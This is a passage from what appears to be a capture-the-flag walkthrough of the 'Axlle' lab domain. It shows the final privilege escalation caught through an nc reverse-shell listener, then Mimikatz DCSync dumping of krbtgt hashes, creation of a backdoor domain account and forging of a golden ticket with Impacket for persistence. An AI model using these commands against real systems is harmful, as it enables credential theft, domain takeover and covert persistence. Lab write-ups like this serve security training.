We upload it to the victim host using Evil-WinRM upload functionality and subsequently run it to create the directories and files. We also confirm this as having been successful.
*Evil-WinRM* PS C:\Programdata\xpltive> upload privesc.bat
<--SNIP-->
Info: Upload successful!
*Evil-WinRM* PS C:\Programdata\xpltive> .\privesc.bat
<--SNIP-->
*Evil-WinRM* PS C:\Programdata\xpltive> tree /a /f "C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64"
Folder PATH listing
Volume serial number is 000001B4 BFF7:F940
C:\PROGRAM FILES (X86)\WINDOWS KITS\10\TESTING\STANDALONETESTING\INTERNAL\X64
| command.txt
| reboot.rsf
| standalonerunner.exe
| standalonexml.dll
|
\---myTestDir
\---working
rsf.rsf
We are now ready to escalate our privileges by simply waiting for the standalonerunner.exe to start on its own (since it was configured this way according to the README.md note).
We obviously have our listener running first and will eventually catch the incoming reverse shell connection attempt.
$ rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.33] from (UNKNOWN) [10.129.65.77] 57192
PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\myTestDir\working> whoami
axlle\administrator
PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\myTestDir\working> hostname
MAINFRAME
This concludes the successful compromise of the MAINFRAME host as well as the axlle.htb Active Directory domain.
The root flag can be found at C:\Users\Administrator\Desktop\root.txt.
Persistence¶
For fun we will create a golden ticket for persistence. We start by transferring Mimikatz over to the victim and run the following to get the KRBTGT AES key.
PS C:\Programdata\xpltive> .\mimikatz.exe privilege::debug "lsadump::dcsync /user:axlle\krbtgt /domain:axlle.htb" exit
.#####. mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz(commandline) # privilege::debug
Privilege '20' OK
mimikatz(commandline) # lsadump::dcsync /user:axlle\krbtgt /domain:axlle.htb
[DC] 'axlle.htb' will be the domain
[DC] 'MAINFRAME.axlle.htb' will be the DC server
[DC] 'axlle\krbtgt' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : krbtgt
** SAM ACCOUNT **
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 1/1/2024 3:18:56 AM
Object Security ID : S-1-5-21-1005535646-190407494-3473065389-502
Object Relative ID : 502
Credentials:
Hash NTLM: 6d92f4784b46504cf3bedbc702ac03fe
ntlm- 0: 6d92f4784b46504cf3bedbc702ac03fe
lm - 0: 51e7af3b2adfa8ab0e4d04f0a6ddb059
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
Random Value : 771d8d8376a11efa67b494c7d5f27ff3
* Primary:Kerberos-Newer-Keys *
Default Salt : AXLLE.HTBkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : ae2eb9caff08a7d80b1b9166f71a4de91e1bec20705400433383adf27f8d2a69
aes128_hmac (4096) : 096a951763767ceca7e1e5a5628451bd
des_cbc_md5 (4096) : 9e545e64542a7070
<--SNIP-->
Next we create our user using net and then get their SID using PowerView. We only need the relative object id part here. We also get the domain SID.
PS C:\Programdata\xpltive> net user xpltive "P@ssword123" /add /domain
PS C:\Programdata\xpltive> Get-DomainUser -Identity xpltive
pwdlastset : 1/17/2025 12:48:40 PM
usncreated : 172399
lastlogoff : 12/31/1600 4:00:00 PM
badpwdcount : 0
name : xpltive
samaccounttype : USER_OBJECT
samaccountname : xpltive
whenchanged : 1/17/2025 8:48:40 PM
objectsid : S-1-5-21-1005535646-190407494-3473065389-10601
PS C:\Programdata\xpltive> Get-DomainSID
S-1-5-21-1005535646-190407494-3473065389
This is everything we need and on our attack host we use the ticketer tool of Impacket to create our golden ticket. It will by default add our desired user to the Domain Admins, Domain Users, Schema Admins, Enterprise Admins and Group Policy Creator Owners groups.
$ impacket-ticketer -aesKey ae2eb9caff08a7d80b1b9166f71a4de91e1bec20705400433383adf27f8d2a69 -domain axlle.htb -domain-sid S-1-5-21-1005535646-190407494-3473065389 -user-id 10601 xpltive
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for axlle.htb/xpltive
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] EncAsRepPart
[*] Signing/Encrypting final ticket
[*] PAC_SERVER_CHECKSUM
[*] PAC_PRIVSVR_CHECKSUM
[*] EncTicketPart
[*] EncASRepPart
[*] Saving ticket in xpltive.ccache
And we can validate our little backdoor account with Netexec.
$ KRB5CCNAME=xpltive.ccache nxc smb mainframe.axlle.htb -u xpltive -k --use-kcache -x "whoami /all"
SMB mainframe.axlle.htb 445 MAINFRAME [*] Windows Server 2022 Build 20348 x64 (name:MAINFRAME) (domain:axlle.htb) (signing:True) (SMBv1:False)
SMB mainframe.axlle.htb 445 MAINFRAME [+] axlle.htb\xpltive from ccache (Pwn3d!)
SMB mainframe.axlle.htb 445 MAINFRAME [+] Executed command via wmiexec
SMB mainframe.axlle.htb 445 MAINFRAME USER INFORMATION
SMB mainframe.axlle.htb 445 MAINFRAME ----------------
SMB mainframe.axlle.htb 445 MAINFRAME User Name SID
SMB mainframe.axlle.htb 445 MAINFRAME ================= ==============================================
SMB mainframe.axlle.htb 445 MAINFRAME axlle.htb\xpltive S-1-5-21-1005535646-190407494-3473065389-10601
SMB mainframe.axlle.htb 445 MAINFRAME GROUP INFORMATION
SMB mainframe.axlle.htb 445 MAINFRAME -----------------
SMB mainframe.axlle.htb 445 MAINFRAME Group Name Type SID Attributes
SMB mainframe.axlle.htb 445 MAINFRAME ============================================ ================ ============================================ ===============================================================
SMB mainframe.axlle.htb 445 MAINFRAME Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
SMB mainframe.axlle.htb 445 MAINFRAME BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
SMB mainframe.axlle.htb 445 MAINFRAME BUILTIN\Pre-Windows 2000 Compatible Access Alias S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
SMB mainframe.axlle.htb 445 MAINFRAME BUILTIN\Administrators Alias S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
SMB mainframe.axlle.htb 445 MAINFRAME NT AUTHORITY\NETWORK Well-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group
SMB mainframe.axlle.htb 445 MAINFRAME NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
SMB mainframe.axlle.htb 445 MAINFRAME NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
SMB mainframe.axlle.htb 445 MAINFRAME AXLLE\Domain Admins Group S-1-5-21-1005535646-190407494-3473065389-512 Mandatory group, Enabled by default, Enabled group
SMB mainframe.axlle.htb 445 MAINFRAME AXLLE\Group Policy Creator Owners Group S-1-5-21-1005535646-190407494-3473065389-520 Mandatory group, Enabled by default, Enabled group
SMB mainframe.axlle.htb 445 MAINFRAME AXLLE\Schema Admins Group S-1-5-21-1005535646-190407494-3473065389-518 Mandatory group, Enabled by default, Enabled group
SMB mainframe.axlle.htb 445 MAINFRAME AXLLE\Enterprise Admins Group S-1-5-21-1005535646-190407494-3473065389-519 Mandatory group, Enabled by default, Enabled group
SMB mainframe.axlle.htb 445 MAINFRAME AXLLE\Denied RODC Password Replication Group Alias S-1-5-21-1005535646-190407494-3473065389-572 Mandatory group, Enabled by default, Enabled group, Local Group
SMB mainframe.axlle.htb 445 MAINFRAME Mandatory Label\High Mandatory Level Label S-1-16-12288
SMB mainframe.axlle.htb 445 MAINFRAME PRIVILEGES INFORMATION
SMB mainframe.axlle.htb 445 MAINFRAME ----------------------
SMB mainframe.axlle.htb 445 MAINFRAME Privilege Name Description State
SMB mainframe.axlle.htb 445 MAINFRAME ========================================= ================================================================== =======
SMB mainframe.axlle.htb 445 MAINFRAME SeIncreaseQuotaPrivilege Adjust memory quotas for a process Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeMachineAccountPrivilege Add workstations to domain Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeSecurityPrivilege Manage auditing and security log Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeTakeOwnershipPrivilege Take ownership of files or other objects Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeLoadDriverPrivilege Load and unload device drivers Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeSystemProfilePrivilege Profile system performance Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeSystemtimePrivilege Change the system time Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeProfileSingleProcessPrivilege Profile single process Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeIncreaseBasePriorityPrivilege Increase scheduling priority Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeCreatePagefilePrivilege Create a pagefile Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeBackupPrivilege Back up files and directories Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeRestorePrivilege Restore files and directories Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeShutdownPrivilege Shut down the system Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeDebugPrivilege Debug programs Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeSystemEnvironmentPrivilege Modify firmware environment values Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeChangeNotifyPrivilege Bypass traverse checking Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeRemoteShutdownPrivilege Force shutdown from a remote system Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeUndockPrivilege Remove computer from docking station Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeEnableDelegationPrivilege Enable computer and user accounts to be trusted for delegation Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeManageVolumePrivilege Perform volume maintenance tasks Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeImpersonatePrivilege Impersonate a client after authentication Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeCreateGlobalPrivilege Create global objects Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeTimeZonePrivilege Change the time zone Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeCreateSymbolicLinkPrivilege Create symbolic links Enabled
SMB mainframe.axlle.htb 445 MAINFRAME SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
SMB mainframe.axlle.htb 445 MAINFRAME USER CLAIMS INFORMATION
SMB mainframe.axlle.htb 445 MAINFRAME -----------------------
SMB mainframe.axlle.htb 445 MAINFRAME User claims unknown.
SMB mainframe.axlle.htb 445 MAINFRAME Kerberos support for Dynamic Access Control on this device has been disabled.